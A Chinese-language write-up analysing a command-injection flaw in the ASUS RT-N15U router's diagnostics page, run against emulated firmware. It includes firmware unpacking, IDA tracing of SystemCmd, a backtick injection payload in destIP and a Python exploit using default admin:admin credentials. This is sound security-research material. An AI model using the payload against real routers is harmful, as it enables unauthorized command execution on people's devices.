


# 华硕RT-N15U的命令执行漏洞分析

华硕RT-N15U是华硕品牌的一款无线路由器。
中文名：华硕RT-N15U
产品类型：SOHO无线路由器


# 1、信息收集

## 固件分析

### binwalk
我们先binwalk看一下文件系统。
```
binwalk FW_RT_N15U_30043763754.trx
```


根据信息看到这个固件的文件系统是SquashFS 。

然后问对固件进行解包。
```
binwalk -Me FW_RT_N15U_30043763754.trx
```


### checksec和file


发现文件是32位小端序的MIPS架构，并且没有打开canary和PIE。


# 2、固件模拟

```
sudo ./run.sh -d asus ./firmwares/FW_RT_N15U_30043763754.trx
```


然后进入网页，打开telnet服务。



然后telnet连接。（Telnet 是一种网络协议，用于在计算机之间进行文本数据的交互。它允许用户通过命令行界面远程登录到另一台计算机。）


# 3、漏洞复现（命令执行）
## 3.1、漏洞描述

在这个的输入存在命令执行的漏洞。


## 3.2、漏洞分析
对这三个命令分析。


<mark>ping：</mark>Ping 是一种网络工具，用于测试计算机与其他设备之间的连通性。它通过发送 ICMP（Internet Control Message Protocol）回显请求，测量往返时间（RTT）和丢包率。
<mark>Traceroute：</mark>Traceroute 是一种网络诊断工具，用于追踪数据包在网络中从源到目的地的路径。它可以帮助用户了解数据在传输过程中经过的每一跳（即路由器）。
<mark>Nslookup：</mark>Nslookup 是一个网络命令行工具，用于查询域名系统（DNS）以获取域名或 IP 地址的相关信息。


我们访问的页面为http://192.168.1.1/Main_Analysis_Content.asp，所以我们先对Main_Analysis_Content.asp进行分析。


然后通过burp抓包，观察参数的变化。


通过两次不同输入值的抓包，我们看到主要的变化在于SystemCmd和destIP，上文代码得知，后者是输入框的内容。
再分析Main_Analysis_Content.asp代码得知SystemCmd是由destIP等字符串拼接而成。


我们对SystemCmd进行查找
```
grep -r "SystemCmd"
```


发现它出现在httpd的二进制文件中。

## 3.3、对httpd二进制文件的分析
### 3.3.1 file checksec


httpd为32位小端序MIPS架构，并且没有打开canary和PIE。

### 3.3.2、通过IDA进行分析

我们对SystemCmd进行查找


定位到了它的位置，然后被传进了sys_script()函数。


我们继续进入函数。


我们发现它进行了命令执行。

## 3.4、总结

在3.2、漏洞分析的时候，我们知道，这个值是我们可控的。

所以尝试使用命令执行

# 4、尝试命令执行并写出exp
## 4.1验证我们的命令执行的想法

在tmp目录下，有一个syslog.log文件（syslog.log 是一个日志文件，用于记录系统和应用程序的事件和消息。它通常由 syslog 服务生成，广泛用于 Unix 和 Linux 系统）我们尝试去读取这个文件，并把它保存在a.asp中（a.asp是我们自己将要创建的）


构建命令
```
1.1.1.1`cat ../tmp/syslog.log > a.asp`（这条命令的作用是将 ../tmp/syslog.log 文件的内容复制到 a.asp 文件中）
```


我们到目录下查看
```
ls | grep "a.asp"

```


发现我们的文件创建好了。然后读取里面的内容是否是我们想要的。

```
cat a.asp
```


再读取syslog.log 文件进行对比
```
cat ../tmp/syslog.log 
```

发现a.asp里面的内容正是我们想要的日志信息。这说明我们的命令执行成功。


## 4.2、写exp
### 4.2.1、对网站进行抓包并完成exp


我们发现这两个包完成了我们的命令执行。通过burp的插件导出python


重复操作，然后再抓一个打开a.asp页面的包。


然后同样的操作，把导出的python语言粘贴到我们的exp中。于是我们就得到了我们完整的exp。


### 4.2.2、exp的执行
再vscode运行我们的python文件。


#### 源码：
```
import requests

burp0_url = "http://192.168.1.1:80/apply.cgi?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&preferred_lang=CN&SystemCmd=ping+-c+5+1.1.1.1%60cat+..%2Ftmp%2Fsyslog.log+%3E+a.asp%60&firmver=3.0.0.4&cmdMethod=ping&destIP=1.1.1.1%60cat+..%2Ftmp%2Fsyslog.log+%3E+a.asp%60&pingCNT=5"
burp0_cookies = {"notification_history": "0,0,0,0,0,0,0,0", "hwaddr": "52:54:00:12:34:57", "clock_type": "1"}
burp0_headers = {"Authorization": "Basic YWRtaW46YWRtaW4=", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://192.168.1.1/Main_Analysis_Content.asp", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)


#import requests

burp0_url = "http://192.168.1.1:80/Main_Analysis_Content.asp"
burp0_cookies = {"notification_history": "0,0,0,0,0,0,0,0", "hwaddr": "52:54:00:12:34:57", "clock_type": "1"}
burp0_headers = {"Authorization": "Basic YWRtaW46YWRtaW4=", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://192.168.1.1/apply.cgi?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&preferred_lang=CN&SystemCmd=ping+-c+5+1.1.1.1%60cat+..%2Ftmp%2Fsyslog.log+%3E+a.asp%60&firmver=3.0.0.4&cmdMethod=ping&destIP=1.1.1.1%60cat+..%2Ftmp%2Fsyslog.log+%3E+a.asp%60&pingCNT=5", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)


#import requests

burp0_url = "http://192.168.1.1:80/a.asp"
burp0_cookies = {"notification_history": "0,0,0,0,0,0,0,0", "hwaddr": "52:54:00:12:34:57", "clock_type": "1"}
burp0_headers = {"Authorization": "Basic YWRtaW46YWRtaW4=", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
a=requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

print(a.text)


#ping -c 5 1.1.1.1`cat ../tmp/syslog.log > a.asp`

```


#### 结果
```
Jan  1 00:00:09 syslogd started: BusyBox v1.17.4
Jan  1 00:00:09 kernel: klogd started: BusyBox v1.17.4 (2015-01-10 20:55:27 CST)
Jan  1 00:00:09 kernel: [    0.137102] PCI: Enabling device 0000:00:0a.2 (0000 -> 0001)
Jan  1 00:00:09 kernel: [    0.158799] firmadyne: Cannot register character device: gpio, 0xfc, 0x0!
Jan  1 00:00:09 kernel: [    0.159619] firmadyne: Cannot register character device: watchdog, 0xa, 0x82!
Jan  1 00:00:09 kernel: [    0.159825] firmadyne: Cannot register character device: wdt, 0xfd, 0x0!
Jan  1 00:00:09 kernel: [    0.201348] PCI: Enabling device 0000:00:12.0 (0000 -> 0002)
Jan  1 00:00:09 kernel: [    0.593290] PCI: Enabling device 0000:00:0a.1 (0000 -> 0001)
Jan  1 00:00:09 kernel: [    0.602475] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.602731] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.602966] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.603217] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.603454] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.603780] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.605400] flash size: 128 MiB
Jan  1 00:00:09 kernel: [    0.605497] page size: 512 bytes
Jan  1 00:00:09 kernel: [    0.605587] OOB area size: 16 bytes
Jan  1 00:00:09 kernel: [    0.605682] sector size: 16 KiB
Jan  1 00:00:09 kernel: [    0.605787] pages number: 262144
Jan  1 00:00:09 kernel: [    0.605875] pages per sector: 32
Jan  1 00:00:09 kernel: [    0.605961] bus width: 8
Jan  1 00:00:09 kernel: [    0.606032] bits in sector size: 14
Jan  1 00:00:09 kernel: [    0.606125] bits in page size: 9
Jan  1 00:00:09 kernel: [    0.606220] bits in OOB size: 4
Jan  1 00:00:09 kernel: [    0.606309] flash size with OOB: 135168 KiB
Jan  1 00:00:09 kernel: [    0.606419] page address bytes: 4
Jan  1 00:00:09 kernel: [    0.606508] sector address bytes: 3
Jan  1 00:00:09 kernel: [    0.606601] options: 0x42
Jan  1 00:00:09 kernel: [    0.661066] Creating 11 MTD partitions on "NAND 128MiB 1,8V 8-bit":
Jan  1 00:00:09 kernel: [    0.661420] 0x000000000000-0x000000100000 : "NAND simulator partition 0"
Jan  1 00:00:09 kernel: [    0.663888] 0x000000100000-0x000000200000 : "NAND simulator partition 1"
Jan  1 00:00:09 kernel: [    0.664622] 0x000000200000-0x000000300000 : "NAND simulator partition 2"
Jan  1 00:00:09 kernel: [    0.665455] 0x000000300000-0x000000400000 : "NAND simulator partition 3"
Jan  1 00:00:09 kernel: [    0.666183] 0x000000400000-0x000000500000 : "NAND simulator partition 4"
Jan  1 00:00:09 kernel: [    0.666854] 0x000000500000-0x000000600000 : "NAND simulator partition 5"
Jan  1 00:00:09 kernel: [    0.667564] 0x000000600000-0x000000700000 : "NAND simulator partition 6"
Jan  1 00:00:09 kernel: [    0.668271] 0x000000700000-0x000000800000 : "NAND simulator partition 7"
Jan  1 00:00:09 kernel: [    0.669068] 0x000000800000-0x000000900000 : "NAND simulator partition 8"
Jan  1 00:00:09 kernel: [    0.669750] 0x000000900000-0x000000a00000 : "NAND simulator partition 9"
Jan  1 00:00:09 kernel: [    0.670442] 0x000000a00000-0x000008000000 : "NAND simulator partition 10"
Jan  1 00:00:09 kernel: [    0.673700] PCI: Enabling device 0000:00:13.0 (0000 -> 0003)
Jan  1 00:00:09 kernel: [    0.964426] scsi 0:0:0:0: Direct-Access     ATA      QEMU HARDDISK    2.5+ PQ: 0 ANSI: 5
Jan  1 00:00:09 kernel: [    0.969140] sd 0:0:0:0: [sda] 2097152 512-byte logical blocks: (1.07 GB/1.00 GiB)
Jan  1 00:00:09 kernel: [    0.969522] scsi 1:0:0:0: CD-ROM            QEMU     QEMU DVD-ROM     2.5+ PQ: 0 ANSI: 5
Jan  1 00:00:09 kernel: [    0.972014] sd 0:0:0:0: [sda] Write Protect is off
Jan  1 00:00:09 kernel: [    0.972676] sd 0:0:0:0: [sda] Write cache: enabled, read cache: enabled, doesn't support DPO or FUA
Jan  1 00:00:09 kernel: [    0.978341] sd 0:0:0:0: [sda] Attached SCSI disk
Jan  1 00:00:09 kernel: [    1.000824] PCI: Enabling device 0000:00:14.0 (0000 -> 0003)
Jan  1 00:00:10 kernel: [    1.315797] PCI: Enabling device 0000:00:15.0 (0000 -> 0003)
Jan  1 00:00:10 kernel: [    1.639909] PCI: Enabling device 0000:00:16.0 (0000 -> 0003)
Jan  1 00:00:10 stop_nat_rules: apply the redirect_rules!
Jan  1 00:00:10 ntp: start NTP update
Jan  1 00:00:10 kernel: [    1.992057] Bridge firewalling registered
Jan  1 00:00:10 kernel: [    2.009622] EXT2-fs (sda1): warning: mounting unchecked fs, running e2fsck is recommended
Jan  1 00:00:10 kernel: [    2.158698] random: nonblocking pool is initialized
Jan  1 00:00:10 kernel: [    3.354835] OFFSETS: offset of pid: 0x198 offset of comm: 0x278
Jan  1 00:00:10 RT-N15U: start httpd
Jan  1 00:00:10 kernel: [   10.228794] nas calls setitimer() with new_value NULL pointer. Misfeature support will be removed
Jan  1 00:00:37 ntp: start NTP update
Jan  1 00:01:04 ntp: start NTP update
Jan  1 00:01:30 rc_service: httpd 130:notify_rc start_autodet
Jan  1 00:01:31 ntp: start NTP update
Jan  1 00:01:32 rc_service: httpd 130:notify_rc start_autodet
Jan  1 00:01:44 rc_service: httpd 130:notify_rc start_autodet
Jan  1 00:01:46 rc_service: httpd 130:notify_rc start_autodet
Jan  1 00:01:57 rc_service: httpd 130:notify_rc start_autodet
Jan  1 00:01:58 ntp: start NTP update
Jan  1 00:02:00 rc_service: httpd 130:notify_rc start_autodet
Jan  1 00:02:04 rc_service: httpd 130:notify_rc start_autodet
Jan  1 00:02:11 rc_service: httpd 130:notify_rc restart_wan_if 0
Jan  1 00:02:14 rc_service: httpd 130:notify_rc start_autodet
Jan  1 00:02:25 ntp: start NTP update
Jan  1 00:02:33 rc_service: httpd 130:notify_rc restart_wireless
Jan  1 00:02:52 ntp: start NTP update
Jan  1 00:03:19 ntp: start NTP update
Jan  1 00:03:46 ntp: start NTP update
Jan  1 00:04:13 ntp: start NTP update
Jan  1 00:04:40 ntp: start NTP update
Jan  1 00:04:47 rc_service: httpd 130:notify_rc restart_time
Jan  1 00:04:48 kernel: klogd: exiting
Jan  1 00:04:48 syslogd exiting
Jan  1 00:04:48 syslogd started: BusyBox v1.17.4
Jan  1 00:04:48 kernel: klogd started: BusyBox v1.17.4 (2015-01-10 20:55:27 CST)
Jan  1 00:04:48 RT-N15U: start httpd
Jan  1 00:05:15 ntp: start NTP update
Jan  1 00:05:42 ntp: start NTP update
Jan  1 00:06:09 ntp: start NTP update
Jan  1 00:06:36 ntp: start NTP update
Jan  1 00:07:03 ntp: start NTP update
Jan  1 00:07:30 ntp: start NTP update
Jan  1 00:07:57 ntp: start NTP update
Jan  1 00:08:24 ntp: start NTP update
Jan  1 00:08:51 ntp: start NTP update
Jan  1 00:09:18 ntp: start NTP update
Jan  1 00:09:45 ntp: start NTP update
Jan  1 00:10:12 ntp: start NTP update
Jan  1 00:10:39 ntp: start NTP update
Jan  1 00:11:06 ntp: start NTP update
Jan  1 00:11:33 ntp: start NTP update
Jan  1 00:12:00 ntp: start NTP update
Jan  1 00:12:27 ntp: start NTP update
Jan  1 00:12:54 ntp: start NTP update
Jan  1 00:13:21 ntp: start NTP update
Jan  1 00:13:48 ntp: start NTP update
Jan  1 00:14:15 ntp: start NTP update
Jan  1 00:14:42 ntp: start NTP update
Jan  1 00:15:09 ntp: start NTP update
Jan  1 00:15:36 ntp: start NTP update
Jan  1 00:16:03 ntp: start NTP update
Jan  1 00:16:31 ntp: start NTP update
Jan  1 00:16:58 ntp: start NTP update
Jan  1 00:17:25 ntp: start NTP update
Jan  1 00:17:52 ntp: start NTP update
Jan  1 00:18:19 ntp: start NTP update
Jan  1 00:18:46 ntp: start NTP update
Jan  1 00:19:13 ntp: start NTP update
Jan  1 00:19:40 ntp: start NTP update
Jan  1 00:20:07 ntp: start NTP update
Jan  1 00:20:34 ntp: start NTP update
Jan  1 00:21:01 ntp: start NTP update
Jan  1 00:21:28 ntp: start NTP update
Jan  1 00:21:55 ntp: start NTP update
Jan  1 00:22:22 ntp: start NTP update
Jan  1 00:22:49 ntp: start NTP update
Jan  1 00:23:16 ntp: start NTP update
Jan  1 00:23:43 ntp: start NTP update
Jan  1 00:24:10 ntp: start NTP update
Jan  1 00:24:37 ntp: start NTP update
Jan  1 00:25:05 ntp: start NTP update
Jan  1 00:25:32 ntp: start NTP update
Jan  1 00:25:59 ntp: start NTP update
Jan  1 00:26:26 ntp: start NTP update
Jan  1 00:26:53 ntp: start NTP update
Jan  1 00:27:20 ntp: start NTP update
Jan  1 00:27:47 ntp: start NTP update
Jan  1 00:28:14 ntp: start NTP update
Jan  1 00:28:41 ntp: start NTP update
Jan  1 00:29:08 ntp: start NTP update
Jan  1 00:29:35 ntp: start NTP update
Jan  1 00:30:02 ntp: start NTP update
Jan  1 00:30:29 ntp: start NTP update
Jan  1 00:30:56 ntp: start NTP update
Jan  1 00:31:23 ntp: start NTP update
Jan  1 00:31:50 ntp: start NTP update
Jan  1 00:32:17 ntp: start NTP update
Jan  1 00:32:44 ntp: start NTP update
Jan  1 00:33:11 ntp: start NTP update
Jan  1 00:33:38 ntp: start NTP update
Jan  1 00:34:05 ntp: start NTP update
Jan  1 00:34:32 ntp: start NTP update
Jan  1 00:34:59 ntp: start NTP update
Jan  1 00:35:26 ntp: start NTP update
Jan  1 00:35:53 ntp: start NTP update
Jan  1 00:36:20 ntp: start NTP update
Jan  1 00:36:47 ntp: start NTP update
Jan  1 00:37:14 ntp: start NTP update
Jan  1 00:37:41 ntp: start NTP update
Jan  1 00:38:08 ntp: start NTP update
Jan  1 00:38:36 ntp: start NTP update
Jan  1 00:39:03 ntp: start NTP update
Jan  1 00:39:30 ntp: start NTP update
Jan  1 00:39:57 ntp: start NTP update
Jan  1 00:40:24 ntp: start NTP update
Jan  1 00:40:51 ntp: start NTP update
Jan  1 00:41:18 ntp: start NTP update
Jan  1 00:41:45 ntp: start NTP update
Jan  1 00:42:12 ntp: start NTP update
Jan  1 00:42:39 ntp: start NTP update
Jan  1 00:43:06 ntp: start NTP update
Jan  1 00:43:33 ntp: start NTP update
Jan  1 00:44:00 ntp: start NTP update
Jan  1 00:44:27 ntp: start NTP update
Jan  1 00:44:54 ntp: start NTP update
Jan  1 00:45:21 ntp: start NTP update
Jan  1 00:45:48 ntp: start NTP update
Jan  1 00:46:15 ntp: start NTP update
Jan  1 00:46:42 ntp: start NTP update
Jan  1 00:47:09 ntp: start NTP update
Jan  1 00:47:36 ntp: start NTP update
Jan  1 00:48:03 ntp: start NTP update
Jan  1 00:48:30 ntp: start NTP update
Jan  1 00:48:57 ntp: start NTP update
Jan  1 00:49:24 ntp: start NTP update
Jan  1 00:49:51 ntp: start NTP update
Jan  1 00:50:18 ntp: start NTP update
Jan  1 00:50:45 ntp: start NTP update
Jan  1 00:51:12 ntp: start NTP update
Jan  1 00:51:39 ntp: start NTP update
Jan  1 00:52:06 ntp: start NTP update
Jan  1 00:52:34 ntp: start NTP update
Jan  1 00:53:01 ntp: start NTP update
Jan  1 00:53:28 ntp: start NTP update
Jan  1 00:53:55 ntp: start NTP update
Jan  1 00:54:22 ntp: start NTP update
Jan  1 00:54:49 ntp: start NTP update
Jan  1 00:55:16 ntp: start NTP update
Jan  1 00:55:43 ntp: start NTP update
Jan  1 00:56:10 ntp: start NTP update
Jan  1 00:56:37 ntp: start NTP update
Jan  1 00:57:04 ntp: start NTP update
Jan  1 00:57:31 ntp: start NTP update
Jan  1 00:57:58 ntp: start NTP update
Jan  1 00:58:25 ntp: start NTP update
Jan  1 00:58:52 ntp: start NTP update
Jan  1 00:59:19 ntp: start NTP update
Jan  1 00:59:46 ntp: start NTP update
Jan  1 01:00:13 ntp: start NTP update
Jan  1 01:00:40 ntp: start NTP update
Jan  1 01:01:07 ntp: start NTP update
Jan  1 01:01:34 ntp: start NTP update
Jan  1 01:02:01 ntp: start NTP update
Jan  1 01:02:28 ntp: start NTP update
Jan  1 01:02:55 ntp: start NTP update
Jan  1 01:03:22 ntp: start NTP update
Jan  1 01:03:49 ntp: start NTP update
Jan  1 01:04:16 ntp: start NTP update
Jan  1 01:04:43 ntp: start NTP update
Jan  1 01:05:10 ntp: start NTP update
Jan  1 01:05:37 ntp: start NTP update
Jan  1 01:06:04 ntp: start NTP update
Jan  1 01:06:31 ntp: start NTP update
Jan  1 01:06:58 ntp: start NTP update
Jan  1 01:07:26 ntp: start NTP update
Jan  1 01:07:53 ntp: start NTP update
Jan  1 01:08:20 ntp: start NTP update
Jan  1 01:08:47 ntp: start NTP update
Jan  1 01:09:14 ntp: start NTP update
Jan  1 01:09:41 ntp: start NTP update
Jan  1 01:10:08 ntp: start NTP update
Jan  1 01:10:35 ntp: start NTP update
Jan  1 01:11:02 ntp: start NTP update
Jan  1 01:11:29 ntp: start NTP update
Jan  1 01:11:56 ntp: start NTP update
```


改进建议：把httpd启动分析了
命令构建那一块儿，有问题，没有分析为什么那样构建命令
exp，变量名可能存在变量覆盖的问题，需要更改。

